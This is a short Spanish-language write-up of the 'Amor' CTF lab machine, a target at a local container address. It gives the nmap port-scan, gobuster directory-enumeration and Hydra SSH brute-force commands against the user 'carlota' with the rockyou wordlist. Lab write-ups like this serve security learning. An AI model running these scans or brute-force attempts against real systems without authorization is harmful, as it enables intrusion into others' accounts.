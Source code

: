 # Amor - Proceso de Enumeración y Ataque

## 1. Escaneo de Puertos y Servicios

Se ejecutó el siguiente comando para identificar los servicios disponibles:
```
nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2
```
Resultados:
![alt text](nmap1.png)
![alt text](nmap2.png)

---

## 2. Enumeración de Directorios con Gobuster

Se utilizó Gobuster para buscar directorios y archivos en el servidor web:
```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```
Resultado:
![alt text](gobuster.png)

---

## 3. Ataque de Fuerza Bruta con Hydra

Se intentó obtener acceso por fuerza bruta al servicio SSH usando Hydra:
```
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
---